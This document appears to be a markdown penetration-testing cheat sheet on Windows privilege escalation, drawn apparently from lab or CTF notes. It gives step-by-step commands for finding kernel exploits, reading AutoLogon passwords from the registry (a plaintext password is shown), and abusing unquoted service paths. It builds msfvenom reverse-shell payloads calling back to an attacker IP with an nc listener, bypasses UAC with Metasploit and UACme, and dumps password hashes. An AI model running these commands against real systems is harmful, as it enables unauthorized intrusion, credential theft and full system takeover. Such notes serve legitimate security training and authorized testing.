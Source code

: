 


### [WINDOWS PRIVILEGE ESCALATION](#)


###### Exploit Suggestor & WinPeas
- Both can be used to find vulnerabilities which can lead to PE
- Finding Kernel exploit by using `Exploit Suggestor` on metasploit
    - `search exploit_suggest` > `multi/recon/local_exploit_suggester` > `set SESSION 1` > `exploit`

- Download WinPeas, transfer it to target and run
    - `https://github.com/carlospolop/PEASS-ng/releases/download/20230101/winPEASx64.exe`

************************************************************************************************

###### WINDOWS AUTOLOGON CREDS

We can find password of privileged user if he used windows Autologon

**Using Winpeas**

You can find this using Winpeas

```
  [+] Looking for AutoLogon credentials(T1012)
Some AutoLogon credentials were found!!
    DefaultDomainName             :  EGOTISTICALBANK
    DefaultUserName               :  EGOTISTICALBANK\svc_loanmanager
    DefaultPassword               :  Moneymakestheworldgoround! 
```

**Manually by reading the registry with PowerShell**
```
*Evil-WinRM* PS C:\Users\FSmith\Documents> cd "HKLM:\software\microsoft\windows nt\currentversion\winlogon"
*Evil-WinRM* PS HKLM:\software\microsoft\windows nt\currentversion\winlogon> get-item -path .
```

```
*Evil-WinRM* PS C:\Users\FSmith\Documents> cd "HKLM:\software\microsoft\windows nt\currentversion\winlogon"
*Evil-WinRM* PS HKLM:\software\microsoft\windows nt\currentversion\winlogon> get-item -path .


    Hive: HKEY_LOCAL_MACHINE\software\microsoft\windows nt\currentversion


Name                           Property
----                           --------
winlogon                       AutoRestartShell             : 1
                               Background                   : 0 0 0
                               CachedLogonsCount            : 10
                               DebugServerCommand           : no
                               DefaultDomainName            : EGOTISTICALBANK
                               DefaultUserName              : EGOTISTICALBANK\svc_loanmanager
                               DisableBackButton            : 1
                               EnableSIHostIntegration      : 1
                               ForceUnlockLogon             : 0
                               LegalNoticeCaption           :
                               LegalNoticeText              :
                               PasswordExpiryWarning        : 5
                               PowerdownAfterShutdown       : 0
                               PreCreateKnownFolders        : {A520A1A4-1780-4FF6-BD18-167343C5AF16}
                               ReportBootOk                 : 1
                               Shell                        : explorer.exe
                               ShellCritical                : 0
                               ShellInfrastructure          : sihost.exe
                               SiHostCritical               : 0
                               SiHostReadyTimeOut           : 0
                               SiHostRestartCountLimit      : 0
                               SiHostRestartTimeGap         : 0
                               Userinit                     : C:\Windows\system32\userinit.exe,
                               VMApplet                     : SystemPropertiesPerformance.exe /pagefile
                               WinStationsDisabled          : 0
                               scremoveoption               : 0
                               DisableCAD                   : 1
                               LastLogOffEndTimePerfCounter : 37689452493
                               ShutdownFlags                : 19
                               DisableLockWorkstation       : 0
                               DefaultPassword              : Moneymakestheworldgoround!



```

###### UNQUOTED SERVICE PATH

> What it is? When a service is created whose executable path contains spaces and isn’t enclosed within quotes, leads to a vulnerability known as Unquoted Service Path which allows a user to gain SYSTEM privileges (only if the vulnerable service is running with SYSTEM privilege level which most of the time it is). 

> Root cause? In Windows, if the service is not enclosed within quotes and is having spaces, it would handle the space as a break and pass the rest of the service path as an argument.

1. Find the unquoted service path
```
wmic service get name,pathname,displayname,startmode | findstr /i auto | findstr /i /v "C:\Windows\\" | findstr /i /v """
```

/i means ignore the case
/v means except <this argument> find others.

2. We need any of the three permission (basically write permission) on the folder in which unquoted service is there

- (F) Full Control
- (M) Modify
- (W) Write

The user / group permissions we are looking for are the following:
- The user we are currently logged in as (%USERNAME%)
- Authenticated Users
- Everyone
- BUILTIN\Users
- NT AUTHORITY\INTERACTIVE

Check both using `icacls` 

```
icacls "C:\Program Files\Zero Tier
```

3. If required write access is there, then generate payload with folder name where space starts.

- (non-meterpreter binary)
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.17.6.236 LPORT=4444 -f exe -o /home/kali/ZeroTier.exe
```

- (meterpreter binary)
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.17.6.236 LPORT=4444 -f exe -o /home/kali/ZeroTier.exe
```


4. Transfer payload to target server by whatever method

5. Start listener on attacker machine

(for non-meterpreter binary)
    - `nc -nlvp 4444`

(for meterpreter binary)

- use metasploit multi/handler

6. Now start the service using cmd or poweshell

    - `net start zerotieroneservice`

    - `Start-Service zerotieroneservice`

7. We get the reversehell with Privileged user/NT Authority

***********************************************************************************************
###### Bypassing UAC prompt

- Checking if user is part of Local Group Administrator
    - `net localgroup administrator`

- Bypassing UAC using metasploit module
    - `use exploit/windows/local/bypassuac_injection ` > `set payload windows/x64/meterpreter/reverse_tcp` > `set SESSION 1` > `set LPORT 1234` >  `set TARGET Windows\ x64 ` > `exploit`
        - This module just disabled UAC, hence we still need to elevate privileges using `getsystem`
        - `getsystem` > `getuid` > `hashdump`

- Bypassing UCA using tool - UACme
    - Creating meterpreter revershe shell Payload and uploading it (in this case uploading using meterpreter session)
        - `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.19.5 LPORT=1234 -f exe > backdoor.exe` 
        - `cd C://` > `mkdir temp` > `cd temp` > `upload backdoor.exe`
    - Uploading the UAC executable `Akagai64.exe`
        - `upload /root/Desktop/tools/UACME/Akagi64.exe`
    - Starting listerner on our machine
        - `use multi/handler` > `set payload windows/meterpreter/reverse_tcp` > `set LPORT 1234` > `set LHOST 10.10.19.5` > `run`
    - Executing executable 
        - `.\Akagi64 23 C:\temp\backdoor.exe`




